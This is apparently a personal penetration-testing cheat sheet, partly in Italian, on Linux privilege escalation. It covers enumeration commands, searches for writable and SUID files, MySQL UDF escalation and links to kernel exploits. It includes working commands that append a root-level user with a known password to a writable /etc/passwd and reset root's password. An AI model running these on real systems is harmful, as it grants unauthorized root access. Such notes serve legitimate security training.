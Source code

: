 ## What to look for
- History File
- Credentials Access
	- Reused Passwords
	- Config FIles
	- Local Database
	- Keys SSH
	- Bash History
- Miss-configured services (cronjobs)
	- Writable Cronjob
	- Writable Cronjob dipendency/script
- any process running as a privileged user?
	- MySQL as root?
- Incorrect permissions 
	- sudo -l
	- Docker, LXC?
	- senstive files readable/writable (passwd, shadow)
- misconfigured environment ($PATH)
- Binary with SUID/SGID bit
- Software or OS with known vulnerabilities
- [[File Capabilities]]


### Enumeration
Architecture
```cat /etc/issue && uname -a && arch```

Processes (look for root)
```ps -auxw```

Network info
```
ifconfig -a
ip addr
route
```

Firewall Status
```
#(server root)
iptables --list
```
Cronjobs
```
ls -lah /etc/cron*
cat /etc/crontab
grep "CRON" /var/log/cron.log
```

Log files:
See [[Linux Hardening & Logging]]

### Bad Permission
Writable files
```
find / -writable -type f 2> /dev/null | grep -v proc
find / -user admin -type f 2>/dev/null
find / -user catherine -type f 2>/dev/null                        
find / -writable -group root 2>/dev/null
```

If findutils is missing (maybe it's really old)
```find / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \; 2>/dev/null```

writable /etc/passwd

```bash
openssl passwd evil

echo 'rutto:1DrTbIWRDbpz.:0:0:root:/root:/bin/bash' >> /etc/passwd

su rutto #pass: evil
```

change user password non-interactivly
```bash
echo "root:topkek!" | sudo chpasswd
```

### SUID & SGID
```bash
find / -perm -u=s -type f 2>/dev/null
find / -perm -g=s -o -perm -u=s -type f 2>/dev/null # SGID or SUID

```

Altri esempi

```bash
find / -perm -1000 -type d 2>/dev/null # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.

find / -perm -g=s -type f 2>/dev/null # SGID (chmod 2000) - run as the group, not the user who started it.

find / -perm -u=s -type f 2>/dev/null # SUID (chmod 4000) - run as the owner, not the user who started it.

find / -perm -g=s -o -perm -u=s -type f 2>/dev/null # SGID or SUID
```

### UDF (MySQL Running as root)
Prerequisites
-   mysqld must run as root (ps aux | grep mysqld)
-   you must know the credentials of a MySQL user that has the permission to create stored function on the DBMS-

La famosa do_system('cmd') di mysql (trovata soprattutto in hacktricks) non esiste nativamente ma inserendo un oggetto UDF compilato creato da noi possiamo includerlo e utilizzarlo!!!

POC + Script:
- [https://github.com/zinzloun/MySQL-UDF-PrivEsc](https://github.com/zinzloun/MySQL-UDF-PrivEsc)
- [https://www.exploit-db.com/exploits/1518](https://www.exploit-db.com/exploits/1518)

### Kernel Exploits
https://github.com/lucyoa/kernel-exploits

per compilare:
```gcc exploit.c -o exploit```

[[Compiler Flags (GCC)]]

## Other Techniques
[[DOSBox Privilege Escalation]]

## Auto Tools
